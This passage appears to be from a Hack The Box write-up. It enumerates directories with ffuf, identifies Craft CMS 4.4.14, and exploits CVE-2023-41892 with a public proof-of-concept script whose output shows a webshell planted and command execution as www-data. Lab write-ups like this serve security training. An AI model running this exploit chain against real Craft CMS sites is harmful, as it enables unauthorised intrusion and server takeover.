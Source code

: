 ```bash
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

... SNIP ...

images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 726ms]
index                   [Status: 200, Size: 1, Words: 1, Lines: 2, Duration: 740ms]
img                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 483ms]
admin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1019ms]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 258ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 225ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 244ms]

... SNIP ...

```

`ffuf` found the admin page:

![02-admin_login](https://github.com/amalcew/htb-writeups/assets/73908014/c9b48d45-ab78-4543-99c0-deaa55648e73)

the prompt was of course well-secured and did not allow any default credentials, but the page itself revealed information about the backend of the webpage.

![03-cms_version_reveal](https://github.com/amalcew/htb-writeups/assets/73908014/efecb12d-0816-41f0-ab9e-9085dd6fd906)

As we can see, this page utilizes **Craft CMS 4.4.14**. As google revealed, this version of the CMS is vulnerable to critical RCE [CVE-2023-41892](https://threatprotect.qualys.com/2023/09/25/craft-cms-remote-code-execution-vulnerability-cve-2023-41892/)

Firstly, we need to check the host if it is indeed vulnerable (using the payload used in the paper):

![04-rce_poc](https://github.com/amalcew/htb-writeups/assets/73908014/92661979-f5c8-4d25-b809-7d95431e45dc)

As it is visible, the website returned `phpinfo`. Very bad behavior for the website, great opportunity for the threat actor.

## Initial foothold

In order to receive initial foothold it is required to somehow exploit the vulnerability. Simple shell spawning by `shell_exec` function does not work, as the server don't understand the request. 
There are a lot of working POCs on the internet, one of them is [Faelian's POC](https://github.com/Faelian/CraftCMS_CVE-2023-41892).

Execution of the POC returns pseudo-shell which can be used to spawn proper reverse shell.

```bash
> python cve-2023-41892.py http://surveillance.htb
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web

[+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoami
[+] Remember to delete shell.php in /var/www/html/craft/web when you're done

[!] Enjoy your shell

> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```